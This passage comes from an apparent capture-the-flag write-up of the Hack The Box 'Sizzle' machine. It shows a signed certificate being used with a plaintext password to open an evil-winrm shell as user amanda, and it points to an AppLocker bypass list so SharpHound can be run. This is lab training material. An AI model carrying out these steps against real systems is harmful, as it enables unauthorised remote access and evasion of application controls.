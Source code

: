 Then on the certificate web enrollment page, we can copy/paste the content of the CSR.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%206.png)

This generates a signed certificate that we will download.

## Getting User Shell

Using the Public and Private key I logged in as Amanda. 

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c certnew.cer -k amanda.key 

Evil-WinRM shell v2.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\amanda\Documents> whoami
htb\amanda
```

```bash
-S, --ssl                        Enable ssl
-c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
-k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
```

## Getting 2nd User

The First thing I decided to check is BloodHound, For that we need to Upload SharpHound and run that. It will give us all the data in zip format. (Note : There is some sort of AppLocker that makes us unable to run it but we can use this location to bypass it. For more info, this [repo](https://github.com/api0cradle/UltimateAppLockerByPassList) will help.

